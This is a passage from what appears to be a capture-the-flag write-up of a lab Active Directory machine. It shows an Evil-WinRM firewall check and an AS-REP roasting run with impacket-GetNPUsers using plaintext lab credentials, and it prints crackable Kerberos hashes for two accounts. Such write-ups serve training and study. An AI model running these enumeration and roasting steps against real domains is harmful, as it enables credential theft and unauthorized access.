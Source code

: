 reset_user_flag.png

### Privilege Escalation

Having difficulty running enumeration scripts I see that the firewall is on for this target:
```
*Evil-WinRM* PS C:\temp> cmd /c "netsh advfirewall show currentprofile"

Domain Profile Settings:
----------------------------------------------------------------------
State                                 ON
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Ok.
```

After not finding much on the target, I used the AUTOMATE credentials to see if there were and AS-REP roastable accounts:

```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ impacket-GetNPUsers thm.corp/AUTOMATE:Passw0rd1 -request

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name           MemberOf                                                      PasswordLastSet             LastLogon                   UAC      
-------------  ------------------------------------------------------------  --------------------------  --------------------------  --------
ERNESTO_SILVA  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-07-18 11:21:44.224354  <never>                     0x410200 
TABATHA_BRITT  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-08-21 15:32:59.571306  2023-08-21 15:32:05.792734  0x410200 
LEANN_LONG     CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-07-18 11:21:44.161807  2023-06-16 07:16:11.147334  0x410200 



$krb5asrep$23$ERNESTO_SILVA@THM.CORP:614a0771f99a34651c02e56cbe63866d$c0f1522512a7d6781183a87282d92241d3d4881fcd485e4a4aaf365124469f2eadf2507766c5256edc7a69ae83f598a7b4dcdfd76a9714682f1b7aa481e285697edc6f00d9ffbfb2c4c533334499c9b0d580165d1485edcf4c6a81bc269668e14507a3dab317024c43f1aba49b7b8639c832843f8417d22dce6fe764529286f1222e73b5eb3699835fe0544d01688315f0011a70bdeed7ba1cf8ab081111b8f29895b3f86a247d756bf8d2708a8d7ccde9cf70e6d423b85eef00255d73095c160b29279e759732fac412ab6fe1883305f012f65fe44fbba832cbf597b137af0a0e6ae434
$krb5asrep$23$TABATHA_BRITT@THM.CORP:719864c3078e4556e99da948e898765e$f1bfe1d2aa544b9b846fde482d295c6a7d2c5f302e8ed160f7ad80ffa7cbf8a13e9bf2337ee4662eddbd1430b1bec170d165fd32aa5d5c2fe8cc6a0929c4a3228c2ab7963343b9911116b1fb318c9e8bbf51ba457bfd10a64181ff0aae7489383f8a877ed3589edba69a0344597aff55ed97ce1daf03f9abb7fcaae93c1e6ae17454d81098629165366b4b2fadf9ab155401aa51d75a9ddd7cc8d51e79fcb347c6b09af43e855d797d9fbbc6d928dd6486477c3776b80348221fa8861ec6fc619f79586b91946be3743103fa18f8dadac88f218f42f1a36261eca1aff7cb14a1b832a826
```